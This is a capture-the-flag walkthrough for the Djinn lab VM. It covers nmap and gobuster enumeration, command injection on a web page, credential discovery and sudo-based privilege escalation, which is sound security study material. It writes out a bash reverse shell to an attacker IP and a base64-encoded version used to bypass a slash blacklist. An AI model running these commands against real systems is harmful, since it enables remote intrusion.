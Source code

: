 # Djinn

# 1 Information gathering
## 1.1 Discovery host
`nmap -Pn -F 192.168.196.1/24 -oN host_discovery.txt`
![f84de650feb2a1309625aaff4adfb83d.png](./_resources/65c9ec4d9d6e436788affd3d537225e8.png)


## 1.2 Service enum
`nmap -sV -sC -p- 192.168.196.129 -oN full_service_enum-sC.txt`
![0dfa4145e322dba95aa646e7848b2736.png](./_resources/e718053a0f39427195f3cdb2b63156cd.png)
![4d9ee0e7c513b63ab9e43920753b0cfa.png](./_resources/fa593ae22bce4d649b5ca31f14f7d272.png)

`nmap -sV -sU -F 192.168.196.129 -oN udp-sC-sV.txt`

## 1.3 Web port 7331
### 1.3.1 Enum web content
`gobuster dir -u http://192.168.196.129:7331/ -w /usr/share/wordlists/dirb/big.txt -t 50 -f -o info2.txt` <- with added slashs, it don't returns results.

`gobuster dir -u http://192.168.196.129:7331/ -w /usr/share/wordlists/dirb/big.txt -t 50`
![137c31d8c64c55e91dc55f8509ba7b28.png](./_resources/2c1abbb4f93b4766a582e39cf03f966c.png)

### 1.3.2 Genie page
![73ee3a1a033ca9c5d2d52b4318328c7c.png](./_resources/d1b4456acb9a46668dbf48e7d859be44.png)

### 1.3.3 Wish page
![4fe4d5bc99c2ef38bb722919db346e2c.png](./_resources/cd4601967aa149438cc73d58f44a578e.png)

What is typed here is interpreted as linux terminal commands.

![f6b3387328509646f7c9b061e16361b3.png](./_resources/8286b0d038d34ef2ae002ccb6cfdef7a.png)

And returns as paragraph:
![e2f0685e61fb2338ae0e8c44ba9a337f.png](./_resources/c38985976d964523baa9f9f8d507f11e.png)

At this point, we cag get a reverse shell with python.


# 2 Exploitation with bypass filter
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
All reverse shells were blocked. Apparently the "/" character is identified and blocked.

An attempt to bypass by base64 encoding worked.

`echo "bash -i >& /dev/tcp/192.168.196.121/4446 0>&1" | base64` <- on kali linux

`echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE5Ni4xMjEvNDQ0NiAwPiYxCg==" | base64 -d | bash` <- web target

![c926b53dcca77327de261371bdd5ae94.png](./_resources/7de7bf58eb6d426fa8781804e3fa845d.png)


# 3 Post-exploitation
![b383c43dd66b0db592da7b1f6cf54729.png](./_resources/8bfeb1670f7c4f579109be9dc515a1d4.png)

![07574321ad81f588af3baec59f7dd79e.png](./_resources/ddd5e85a4d234e808e4253af4a144dbf.png)

Here we can see the blocking method used, a blacklist.

Also there is a path with creeds:
`/home/nitish/.dev/creds.txt`

## 3.1 Nitish user
![aaf0cb7d10de10a197e5dacca4a33986.png](./_resources/13541d77403a41089cfe9d63609e82de.png)

## 3.2 Sam user
LinEnum.sh returns some good information:
![1edc98a678d34d2b5a4429915af11012.png](./_resources/a14c936000604e24be4d02ea01b1aac2.png)

![9ee8cb7829679ad52076e567d0bbc42e.png](./_resources/42142b9985ac4cd2a84fb49737257f7a.png)
![e8c813fb3c268fec928ddf195c0bc9c3.png](./_resources/5a720de76a2646f09b6f47939d7cdeb4.png)

![6f0504c7d3117be56275b846c57a04a4.png](./_resources/9131bcfeea654d8d83a11b9fddda923f.png)

After try different methods to get shell, none results.

### 3.2.1 Basic bin analisys and shell
The first way is to use the `strings` command to get some information. For that you need to download the binary to the Kali machine and use the command:
`strings genie`

![74bc7100322fa43b70786f2eafb09b79.png](./_resources/1f8738bdaf5348a58704eefb7ae629fa.png)

`sudo -u sam /usr/bin/genie -cmd test`
![7edf8421a3b7b63bb92645dd7d352d93.png](./_resources/ee6c7ca98ef2498ca964fb80bee54383.png)

## 3.3 Getting root
![3695c6c16ce44f8dfad4116e6bb3b6b7.png](./_resources/7833d0bbe56d4d6d849a59c6be42c398.png)

What works here, was set the option `2` and after type `num` (apparently a variable). Done, it's possible get root.
![1e94958da014e596d207797e8f0ccf28.png](./_resources/79dba6701e5d423cb26319b0efb2b889.png)
